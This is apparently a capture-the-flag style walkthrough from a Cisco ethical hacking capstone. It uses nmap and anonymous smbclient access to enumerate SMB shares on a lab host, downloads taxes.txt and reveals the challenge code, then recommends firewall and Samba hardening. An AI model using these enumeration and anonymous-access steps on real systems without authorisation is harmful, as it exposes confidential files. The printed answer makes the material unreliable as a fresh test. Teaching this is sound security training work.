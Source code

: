 Challenge 3: Exploiting Open SMB Server Shares
This document outlines the steps to complete Challenge 3 of the Cisco Ethical Hacker Capstone Project, focusing on exploiting open SMB server shares on the 10.6.6.0/24 network. The goal is to identify the SMB server (10.6.6.23), enumerate its shares, locate the file taxes.txt in the print$ share, extract the code A9!15wa2, and propose remediation.
Step 1: Scan for Potential Targets Running SMB
Use nmap to scan the 10.6.6.0/24 network for hosts with open SMB ports (139 and 445).
Command:
nmap -p 139,445 10.6.6.0/24

Result: Host 10.6.6.23 has port 445 open, indicating it is likely running SMB services.
Screenshot: See screenshots/step1_nmap_scan.png.
Step 2: Enumerate SMB Shares
Use smbclient to list shares on 10.6.6.23 anonymously (no password).
Command:
smbclient -L //10.6.6.23 -N

Output:
Sharename       Type      Comment
---------       ----      -------
homes           Disk      All home directories
workfiles       Disk      Confidential Workfiles
print$          Disk      Printer Drivers
IPC$            IPC       IPC Service (Samba 4.9.5-Debian)

Analysis: print$ and IPC$ are accessible anonymously; homes and workfiles likely require authentication.
Screenshot: See screenshots/step2_smbclient_list_shares.png.
Step 3: Access Shares and Locate/Download the File
Connect to the print$ share anonymously to locate taxes.txt.
Command to connect:
smbclient //10.6.6.23/print$ -N

Inside smbclient:

List files:ls


Download the target file:get taxes.txt


Exit:exit



Local file inspection:
cat taxes.txt

Result: The file taxes.txt is found in the print$ share and contains the code A9!15wa2.
Screenshots:

screenshots/step3_smbclient_connect_ls.png: Output of ls in print$.

Step 4: Propose SMB Attack Remediation
To secure the SMB server:

Restrict Access: Use firewall rules to limit SMB access (ports 139, 445) to trusted IPs.iptables -A INPUT -p tcp --dport 445 -s <trusted_ip> -j ACCEPT
iptables -A INPUT -p tcp --dport 445 -j DROP


Enforce Strong Authentication: In /etc/samba/smb.conf, set:restrict anonymous = 2
guest ok = no

Enable SMB signing/encryption and use strong passwords.

#Screenshot: See screenshots/step4_remediation_notes.png for remediation notes.
Folder Structure

challenges/challenge-3-samba-exploits/
screenshots/
step1_nmap_scan.png
step2_smbclient_list_shares.png
step3_smbclient_connect_ls.png
#step3_download_file.png
#step3_view_code.png
#step4_remediation_notes.png


smb-commands.txt: List of commands used.
walkthrough.md: This file.


